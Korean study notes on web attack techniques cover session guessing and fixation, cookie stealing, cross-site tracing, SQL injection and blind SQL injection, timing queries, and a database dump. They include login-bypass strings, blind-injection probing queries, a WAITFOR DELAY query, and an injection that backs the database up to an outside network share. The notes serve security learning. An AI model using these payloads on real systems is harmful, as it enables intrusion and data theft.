툴 : brutus-aet2, wwwhack, hydra 등

### Web Session
Session Token 생성 알고리즘이 간단하여 쉽게 유추할 수 있는 경우. 이것을 브루트포싱으로 알아냄.

### Web Session Fixation
Victim이 로그인 하기 전 Victim의 Session ID를 공격자가 원하는 값으로 고정시키는 방법.

### Cookie Stealing
쿠키를 공격자에게 전송하는 악성스크립트

Image 객체 생성 후 스크립트를 이용하여, Image의 Location 속성을 변경

### XST(CROSS SITE TRACING)
TRACE 메소드를 이용한 공격

스크립트에 의해 쿠키를 읽지 못하도록 설정되어 있는 경우에 이를 우회하기 위해서 사용

**Trace 메소드란?**

웹 서버에 제출된 HTTP Request를 Resopnse Body에 포함하여 클라이언트로 전송하는 메소드

### SQL Injection  
ID : `OR `1`=`1  
PW : `OR `1`=`1  
데이터베이스명 알아내기 : `and db_name() > 1 --  
TABLE명 알아내기 : SELECT * FROM Information_schema.colums  
DATA 알아내기 : Table과 Column 이름을 파악했으므로 각각의 데이터도 알아낼 수 있다.  

### Blind SQL Injection
웹 서버에서 SQL Injection을 대응하기 위해서 내부 DB오류를 보여주지 않도록 설정해놓은 경우 참과 거짓을 구분할 수 있는 구문을 만들어 데이터를 알아내는 방법

SELECT * FROM member WHERE user_id="nuno" AND substring(db_name(),1,1) ='w'--  
db_name()의 반환값이 첫 번째 문자열이 w인 경우  
정상적으로 로그인 됨.  

### Waitfor Delay
쿼리 성공 실패를 확인할 수 있다.  
조건이 참인 경우 : 해당 시간 동안 지연시킨 후 결과를 반환  
조건이 거짓인 경우 : 곧 바로 결과 반환  
IF (SELECT current_user) ='dbo' WAITFOR DELAY '0:0:5'  
현재DB 사용자가 dbo라면 결과는 5초후에 반환 되게 된다. dbo가 아닌 계정이라면 곧 바로 결과가 반환된다.  

### Stored Procedure
DBMS에서 지원하는 저장된 프로시져

공격자는 이런 보안상 취약한 프로시저를 이용하여  
쉘을 수행시키거나 쿼리의 결과를 HTML로 제공,  
레지스트리 조작, 서비스 시작/중지, 시스템 정보 획득  

### DB 덤프
쓰기 속성이 포함된 공유폴더를 준비한다.  
SQL Injection을 이용한 DB Backup을 시도한다.  
ID : nuno'; backup database webhack to disk='\\172.16.1.3\share\webhack.dat'  
